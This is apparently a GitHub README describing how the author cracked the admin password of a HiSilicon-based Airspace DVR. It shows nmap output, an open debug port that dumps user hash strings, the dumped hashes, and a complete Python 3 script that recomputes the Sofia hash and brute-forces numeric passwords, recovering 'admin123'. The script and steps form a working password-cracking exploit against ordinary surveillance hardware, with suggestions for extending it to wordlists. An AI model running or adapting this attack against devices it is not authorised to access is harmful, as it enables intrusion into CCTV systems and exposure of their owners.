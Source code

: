 # HiSilicon_DVR_hack_python3
Python3 script to bruteforce admin password

So I have a DVR **Airspace CCTV** with a label Model: **SAM-1968**, user has a valid password as user, but don't have the password for the user *admin*, needed to change any settings on the DVR.

nmap scan:
```
Not shown: 65528 closed ports
PORT      STATE SERVICE
23/tcp    open  telnet
90/tcp    open  dnsix
554/tcp   open  rtsp
3800/tcp  open  pwgpsi
6789/tcp  open  ibm-db2-admin
8000/tcp  open  http-alt
49152/tcp open  unknown
MAC Address: 90:02:A9:9B:BB:F2 (Zhejiang Dahua Technology)
```

Was a bit stuck, until I try to netcat to all the ports, see I can login into the port 6789, a debug port, very limited shell with a few commands, among them
*users -u* will dump some kind of user list and some kind of *hash*
   
```
1:admin:Ny2SRZzv:1:1, 2, 3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48, 49, 50, 51, 52, 54, 55, 5
6, 57, 58, 59, 60:admin 's account:1:4          
2:default:OxhlwSG8:2:3, 4, 5, 6, 7:default account:0:4
3:XXXca:4jejqB7V:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4
4:XXXoni:9pmPStaQ:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4  
5:XXXl:ijoPLH3a:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4  
6:XXXta:eq4yRN5P:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4
7:XXXsa:kEuXCZhl     
```

I didn't recognize the hash format, so I started googling until I found a HiSilicon paper on exploit-db.com
https://www.exploit-db.com/papers/44003

On that excelent paper from Istvan Toth he describes the process he used to hack into the system extract the firmware and reverse it, among that information he describes how  to create that hash from a plain text. He even created a python2 script that creates the hash from a given password.

I converted it to python3 and implemented a function to do a quick a dirty bruteforce, and it worked, I just tried with 4 digits number password and it dumps some of the passwords, it didn't work for the admin password and I had to go the extra mile and add the word "admin" in front of the digits, and that revealed the **admin123** password.

I guess you can improve it so it can bruteforce using characters, or wordlist, or even a hashcat input, but for me was enough this way.

I'll paste the code here
```
import hashlib
lista =["Ny2SRZzv",
        "OxhlwSG8",
        "4jejqB7V",
        "9pmPStaQ",
        "ijoPLH3a",                                                                            
        "eq4yRN5P",
        "kEuXCZhl" ]
def sofia_hash(msg):
    h = ""
    m = hashlib.md5()
    m.update(msg.encode('utf-8'))
    msg_md5 = m.digest()
    for i in range(8):
        n = (msg_md5[2*i] + msg_md5[2*i+1]) % 0x3e
        if n > 9:
            if n > 35:
                n += 61
            else:
                n += 55
        else:
            n += 0x30
        h += chr(n)
    return h

for i in range(9999):
    h = sofia_hash(str(i))
    #h = sofia_hash("admin" + str(i))
    if h in lista:
        print ("value %s hash %s" % (str(i) ,h))
```

